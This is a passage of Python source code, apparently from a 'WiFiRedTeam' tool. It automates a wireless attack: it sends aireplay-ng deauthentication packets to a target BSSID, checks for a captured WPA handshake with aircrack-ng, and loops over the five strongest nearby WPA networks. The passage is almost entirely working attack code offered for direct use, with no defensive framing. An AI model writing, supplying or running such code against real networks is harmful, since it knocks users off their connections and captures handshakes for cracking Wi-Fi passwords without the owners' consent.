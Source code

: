```python
        
        # Deauth attack
        deauth_cmd = [
            'aireplay-ng', '-0', '10',
            '-a', bssid, self.interface
        ]
        
        subprocess.run(deauth_cmd)
        time.sleep(10)
        
        capture_proc.terminate()
        
        # Check if handshake captured
        cap_file = f"{output_file}-01.cap"
        if Path(cap_file).exists():
            check_cmd = ['aircrack-ng', cap_file]
            result = subprocess.run(check_cmd, capture_output=True, text=True)
            
            if 'handshake' in result.stdout.lower():
                self.logger.info(f"Handshake captured for {bssid}")
                return cap_file
        
        return None
    
    def run_automated_attack(self):
        """Run automated WiFi attack sequence"""
        if not self.enable_monitor_mode():
            return False
        
        # Reconnaissance phase
        if not self.reconnaissance():
            self.logger.error("Reconnaissance failed")
            return False
        
        networks = self.results['reconnaissance']
        wpa_networks = [n for n in networks if 'WPA' in n['privacy']]
        
        # Sort by signal strength
        wpa_networks.sort(key=lambda x: x['power'], reverse=True)
        
        # Attack top targets
        for network in wpa_networks[:5]:
            self.logger.info(f"Targeting {network['essid']} ({network['bssid']})")
            handshake_file = self.attack_wpa_handshake(network)
            
            if handshake_file:
                self.results[network['bssid']] = {
                    'handshake_file': handshake_file,
                    'status': 'captured'
                }
        
        # Save results
        with open('wifi_redteam_results.json', 'w') as f:
            json.dump(self.results, f, indent=2)
        
        return True

# Usage
if __name__ == "__main__":
    redteam = WiFiRedTeam()
    redteam.run_automated_attack()
```
